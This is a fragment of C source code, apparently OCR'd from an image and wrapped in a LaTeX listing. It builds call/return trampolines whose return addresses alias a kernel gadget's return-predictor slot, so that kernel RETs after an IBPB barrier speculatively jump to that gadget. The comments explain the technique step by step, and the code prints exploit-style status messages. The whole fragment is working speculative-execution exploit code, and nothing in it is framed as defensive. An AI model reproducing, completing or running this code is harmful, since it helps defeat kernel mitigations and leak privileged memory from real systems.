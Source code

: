 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
    int found = 0; // Track how many aliasing trampolines we found
    for (int i = 0; i < REGION_SIZE - 16 && found < TRAMPOLINE_COUNT; i += 64) {
        uint8_t *tramp = region + i;

        // Compute return address after the call instruction (i.e. target of first RET)
        uint64_t ra = (uint64_t)(tramp + 5);                    // return address after CALL
        
        ////////////////////////////////////////////////////////////////////////////////
        // Return address (RA) = address immediately after the CALL
        // This is the address the CPU will speculate toward when a RET occurs
        //
        // The return predictor (e.g., RSB or BTB) doesn't use full 64-bit VAs.
        // Instead, it indexes using a hash or the low N bits (-> 12-20 bits).
        //
        // The goal is to make RA collide with the kernel gadget's predictor slot,
        // so that speculative RETs in the kernel (post-IBPB) will transiently
        // jump to the gadget -> even though architecturally they shouldn't.
        //
        // Therefore, we apply an ALIAS_MASK to both:
        // ra & ALIAS_MASK -> the return address from the trampoline
        // gadget_addr & ALIAS_MASK -> the address of our kernel gadget
        //
        // If they match: the predictor learns that return addresses in this
        // index class are likely -> this builds pressure toward the gadget.
        //
        // If they don't match: skip this candidate.
        ////////////////////////////////////////////////////////////////////////////////

        if ((ra & ALIAS_MASK) != (gadget_addr & ALIAS_MASK))
            continue;

        tramp[0] = CALL_OPCODE;       // call rel32 (relative target -> 32-bit signed offset) -> ret_stub @ +6
        *(int32_t *)(tramp + 1) = (int32_t)((tramp + 6) - (tramp + 5)); // Calculate rel32 offset for call
        tramp[5] = RET_OPCODE;        // First RET -> returns to RA (alias)
        tramp[6] = RET_OPCODE;        // ret_stub: return to next alias
        tramp[7] = RET_OPCODE;        //Optional RET padding (safe NOP)

        __alias_tbl[found++] = (uint64_t)tramp;   // Save entry point into alias table
    }

    // If we couldn't build enough valid trampolines, exit
    if (found < TRAMPOLINE_COUNT) {
        fprintf(stderr, "[-] Only %d/%d trampolines matched mask 0x%lx (gadget bits 0x%lx)\n",
                found, TRAMPOLINE_COUNT, (unsigned long)ALIAS_MASK,
                (unsigned long)(__pbinc_kernel_gadget_addr & ALIAS_MASK));
        exit(1);
    }
    printf("[+] Built %d trampolines; alias mask 0x%lx\n", found, (unsigned long)ALIAS_MASK);
    return region; // keep region mapped/executable
}
EOF


\end{lstlisting}
\end{document}
